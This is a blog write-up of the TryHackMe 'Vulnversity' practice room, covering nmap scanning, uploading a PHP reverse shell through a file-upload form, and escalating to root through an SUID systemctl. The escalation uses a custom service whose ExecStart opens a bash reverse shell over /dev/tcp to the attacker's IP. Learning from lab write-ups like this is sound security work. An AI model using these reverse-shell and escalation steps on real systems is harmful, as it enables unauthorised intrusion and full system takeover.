 ```yaml
---
title: Try Hack Me Vulnversity Writeup
tags:
- writeup
- tryhackme
image: /images/vulnversity/info.png
---
```


Welcome to the first ever tryhackme writeup! Let me rephrase that... Welcome to **my** first ever tryhackme writeup! Yes this time it is not a hackthebox writeup. I already have written writeups for the machines buff and blunder but cannot release them till they expire and I am not a huge fan of password protecting my content. So till then I will just keep rooting machines and release their writeups when the time is right. Also I will probably only release writeups of those tryhackme rooms which actually taught me something rather than just posting for the sake of it. Enough blabbering! Let's get rooting!

<!--more-->

<img src="/images/vulnversity/info.png" />

SO I would describe this room as an extra easy level on hackthbox difficulty scale because most of the things you have to do are already given and I am just realizing while writing that this is a totally different thing altogether. Nonetheless It taught me something and here I am. 

## Reconnaissance

I had to look up the spelling for that. So taking questions in order:

- How many open ports?
Doing a quick default scan

{% highlight bash %}
nmap -T4 10.10.79.20

Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-27 10:17 IST
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 52.42% done; ETC: 10:17 (0:00:09 remaining)
Nmap scan report for 10.10.79.20
Host is up (0.24s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
{% endhighlight %}

- What is the version of squid proxy?

Doing a quick version scan 

{% highlight bash %}
nmap -sV -p3128 10.10.79.20

Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-27 10:18 IST
Nmap scan report for 10.10.79.20
Host is up (0.26s latency).

PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 3.5.12

{% endhighlight %}

- How many ports will nmap scan if the flag -p-400 was used?

Since we know that `-p-` flag scans all the ports we can safely say that `-p-400` will scan port 1 to 400. 

- Using the nmap flag -n what will it not resolve?

Looking at the man page for nmap 
{% highlight bash %}
-n/-R: Never do DNS resolution/Always resolve [default: sometimes]
{% endhighlight %}

And taking a look at [nmap documentation](https://nmap.org/book/host-discovery-dns.html) for what that means. We come to the conclusion that nmap automatically performs reverse dns resolution (i.e converting ip addresses to names like converting 172.217.160.142 to google.com) to find out more information about targets. We can stop this process to maybe speed up the scanning process and use`-n` flag to do that.

- What is the most likely operating system this machine is running?

Doing a quick OS finger printing scan 

{% highlight bash %}
sudo nmap -O -T4 10.10.79.20

--snip--
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
--snip--
{% endhighlight %}

It doesn't really work. Let's pull out the big guns and do an aggressive scan.

{%highlight bash%}
nmap -A -T4 -v 10.10.79.20

--snip--
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-08-27T00:53:44-04:00
--snip--
{%endhighlight%}

A bit overkill but it worked. So it is an ubuntu machine.

- What port is the web server running on?

Final question of this section. I see a port 3333 in the previous scan with the name of service as dec-notes. I try it as the answer and it says correct. But that wasn't satisfying enough so I try to find something on it, there is not much information for this particular port. All I could find was

`"DEC Notes is a program for electronic conferencing. DEC Notes is a computer-mediated conferencing system that lets you conduct online conferences or meetings. It's basically a bulletin board service.Personally, I've only seen DEC Notes servers on VAX's but that was several years ago.`

But nothing here says anything about a web server. I want to dig deeper but we are not going down that rabbit hole today... so maybe I will come back to this later.

## Locating Directories

Easy section again. I used dirbuster rather than gobuster because I like the tree structure feature. Busting with a common.txt wordlist I find

<img src="/images/vulnversity/dirbust.png" />

The directory /internal looks interesting. I browse to it in the browser and find an upload form.


## Foothold

This section was pretty well explained in the room only so I will skip to the part where we get the webshell. 

So as the room says we first get the webshell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Rename it with the extension .phtml. So the extension .phtml was new for me and I did some research(google) and found that commonly there is not difference between php and phtml. php is used when there is no content to be displayed and phtml is used when there is some dynamically created content that is to be displayed. phtml is literally mixture of php and html.

Then we change the values of IP and port in the webshell file to your own and start a netcat listener according to the port you entered. Use the upload functionality to upload the webshell and browse to something like `http://roomIP:3333/internal/uploads/php-reverse-shell.phtml`

And you should receive a shell from the victim machine. Use `whoami` command and we see we are www-data. Sweeeet!

<img src="/images/vulnversity/shell.png" />

Browsing to /home or read contents of /etc/passwd we can see one user bill and we are able to read the user flag too.

## Privilege Escalation

Finally the most fun part! This section tells us about binaries with suid bit set. This is what I understand: Normally there are three bits r,w,and x representing read,write and execute permissions and when do something like `ls -al` you see them at the left side of each file. When you see a 's' bit instead of 'x' it is said that the suid bit is set. When suid bit is set/on that means you can run that file as if you were the owner of that file. This is particulary interesting because if a file is owned by lets say a root user and it's suid bit is set then we can run that file as root too. For hackers this feature is just asking to be exploited. 

[Refer this](https://www.linuxnix.com/suid-set-suid-linuxunix/) for further information on SUIDs.

Since this section talks about suid bits we can safely say we have to use this mechanism to escalate our privileges. We can find all the binaries with suid bit set using my (sloppy) way like moving to the /bin directory and do `ls -al | grep rws`. What this does is list all the binaries in the bin and catch the ones with s bit. This method doesn't list all the suid binaries in the machine, just the ones in the /bin. Doing it the proper way you can do `find / -user root -perm -4000 -exec ls -ldb {} \;`

Here is the output

{%highlight bash%}
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
{%endhighlight%}

The binary which stands out to me is systemctl because I haven't seen it ever having suid bit set. systemctl is used to manage services like starting/stopping them. This means that since this binary has suid bit set we can run services with root privilege. Do you smell that? It's the sweet sweet smell of privilege escalation...

I knew that I can run services with root privileges but which one? while finding the answer to this I stumble across this [awesome article](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49). It has exactly what I want to do. So I learned today that we can make our own services and run them! Here is the service I created while reading the article:

{%highlight bash%}
[Unit]
Description=rootertooterbaby

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YourIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
{%endhighlight%}

and save it as something like rooter.service

Making your own service is pretty easy. All of them follow this exact pattern with some additional options. 
Now I wasn't able to create the file on the system so I made it on my machine first and transferred it to victim using a python server and wget.

Then all I had to do was start a netcat listener on the port 9999 and run my custom service using:

{%highlight bash%}
$ /bin/systemctl enable /tmp/rooter.service
/bin/systemctl enable /tmp/rooter.service
Created symlink from /etc/systemd/system/multi-user.target.wants/rooter.service to /tmp/rooter.service.
Created symlink from /etc/systemd/system/rooter.service to /tmp/rooter.service.
$ /bin/systemctl start rooter
/bin/systemctl start rooter
{%endhighlight%}

And guess what I saw on my netcat listener? :)

{%highlight bash%}
nc -lvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.64.169 51376 received!
bash: cannot set terminal process group (1579): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/#
{%endhighlight%}

Now you can just get the root flag. This room was a real breath of fresh air after taking some break from those hardcore tear inducing hackthebox machines.
Well that's it for now... See you in the next one! 



